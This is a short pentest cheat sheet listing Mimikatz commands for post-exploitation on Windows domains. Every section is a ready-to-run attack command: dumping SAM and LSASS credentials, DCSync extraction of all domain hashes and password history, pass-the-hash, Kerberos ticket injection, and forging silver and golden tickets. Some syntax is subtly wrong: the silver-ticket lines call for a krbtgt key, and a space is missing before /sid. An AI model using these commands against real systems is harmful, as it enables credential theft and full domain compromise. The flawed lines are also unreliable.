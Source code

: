 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#post-exploitation #credential-dumping #ticket-dumping
# Mimikatz

## General Overview

Post exploitation commands must be executed from SYSTEM level privileges.
- mimikatz # privilege::debug
- mimikatz # token::whoami
- mimikatz # token::elevate
- mimikatz # lsadump::sam
- mimikatz # sekurlsa::logonpasswords
- mimikatz sekurlsa::tickets
- mimikatz sekurlsa::tspkg

Dump the Domain's Credentials without touching DC's LSASS and also remotely

- mimikatz lsadump::dcsync /domain:megacorpone.com /all

Dump old passwords and NTLM hashes of a user
- mimikatz lsadump::dcsync /user:megacorpone.com\afsimmons /history

List and Dump local kerberos credentials
- mimikatz kerberos::list /dump

List Vault Credentials: 
- mimikatz vault::list

## Pass The Hash

- mimikatz # sekurlsa::pth /user:username /domain:domain.tld /ntlm:ntlm_hash

## Inject generated TGS key

- mimikatz # kerberos::ptt <ticket_kirbi_file>

## Generating a silver ticket 

AES 256 Key:

- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

AES 128 Key:

- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

NTLM:

- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<ntlm_hash> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>


## Generating a Golden Ticket

AES 256 Key:

- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name>

AES 128 Key: 

- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name>

NTLM:

- mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<krbtgt_ntlm_hash> /user:<user_name>





